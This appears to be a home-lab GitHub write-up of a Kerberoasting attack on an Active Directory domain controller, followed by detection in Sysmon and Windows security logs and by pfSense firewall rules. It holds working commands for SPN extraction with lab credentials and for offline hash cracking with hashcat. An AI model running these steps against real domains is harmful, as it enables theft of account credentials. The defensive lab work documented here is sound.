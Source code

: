 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## Overview

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
  - **IP Address:** 192.168.10.10
  - **Domain:** SOC.LAB

- **Attacker:** Kali
  - **IP Address:** 192.168.20.30

## Objective

The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment, then crack the Kerberos TGS hashes to gain unauthorized access to domain accounts. Prior attacks had already revealed user credentials and access to the Active Directory domain, facilitating this attack.

## Attack Execution Timeline

1. **Kerberos Port Check**
   - Verified that the Kerberos service (port 88) is open on the Domain Controller:
     ```bash
     nc -vz 192.168.10.10 88
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

2. **DNS Configuration Update**
   - Updated the default DNS IP to point directly to the Domain Controller.
  
3. **SPN Extraction**
   
   - Ran the `GetUserSPNs.py` script from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
     ```bash
     python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

5. **Hash Cracking**
   - Cracked the extracted Kerberos TGS hash using hashcat with the rockyou.txt wordlist, saving the results to `cracked.txt`:
     ```bash
     hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
     ```
   - ![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

## Monitoring Windows Logs

### Sysmon Logs Analysis

- **Observation:**
  - Multiple Sysmon log entries with **Event ID 3** were observed.
  - All connections originated from IP `192.168.10.10`, targeting `192.168.20.30`.
  - Different ephemeral ports were utilized, indicating automated scanning or communication.
- ![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)

### Windows Security Logs

- **Event ID 4769 – Kerberos Service Ticket Request**
  - Numerous requests for Kerberos Service Tickets were recorded from the same source IP.
- ![kerberos_tickets](https://github.com/user-attachments/assets/9275278e-067c-466c-a2bd-3fc551e18f81)

### Detailed User Log Analysis

- **User Activity:**
  - Analysis of individual logs showed multiple ticket requests for user accounts such as *Jordan* and *Candace*.
  - **User Jordan:**  
    ![Jordan](https://github.com/user-attachments/assets/4aab463d-1130-48ea-affc-d23800dd389f)
    
  - **User Candace:**  
    ![candace_rojas](https://github.com/user-attachments/assets/0fa652ef-089b-4bde-97b4-280412b502bf)

- **Logoff Event:**
  - Shortly after the last Kerberos Service Ticket Request, a **Logoff** event (Event ID 4634) was recorded for user `labadmin`.
  - ![logoff](https://github.com/user-attachments/assets/11d039c9-4803-432e-ae34-a427b6db934a)


## **Firewall Rules on pfSense:**
1- **Create an Alias for Internal Systems:**

 - ![aliases](https://github.com/user-attachments/assets/103ebae0-d0c5-4883-b196-d6356225c08c)


2- **Block Unauthorized Kerberos Requests:**
 - ![firstrule](https://github.com/user-attachments/assets/116965fc-3f84-4b72-b76b-414d10214746)

Explanation:
- This rule blocks any Kerberos traffic (port 88) from devices that are not domain controllers (!Alias, that I created in rule 1), which prevents unauthorized users from interacting with the Kerberos service and reduces the risk of Kerberoasting.

3- **Limit External and Internal LDAP Queries:**
- ![rule3](https://github.com/user-attachments/assets/d31cc115-efc6-4a93-b269-133962b478db)

Explanation
- This prevents attackers from using LDAP enumeration tools (like GetUserSPNs.py), a well knowed script, to extract Service Principal Names. LDAP is only needed for trusted systems—blocking it for regular users reduces exposure, like we've just seen.

Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the configs directory.

